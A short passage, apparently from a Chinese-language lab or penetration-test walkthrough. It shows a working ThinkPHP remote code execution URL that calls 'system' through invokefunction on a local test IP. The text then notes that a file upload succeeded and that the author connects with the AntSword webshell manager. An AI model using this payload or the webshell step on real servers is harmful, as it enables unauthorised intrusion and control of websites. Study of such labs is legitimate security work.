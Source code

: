 ```
192.168.1.132/?s=index/\think\app/invokefunction&function=call_user_func_array&vars[0]=system&vars[1][]=dir
```

查看一下是否写入成功

<img src="image/image-20240409171747304.png" alt="image-20240409171747304" style="zoom:67%;" />

发现成功上传

使用蚁剑连接

<img src="image/image-20240409172005054.png" alt="image-20240409172005054" style="zoom:67%;" />
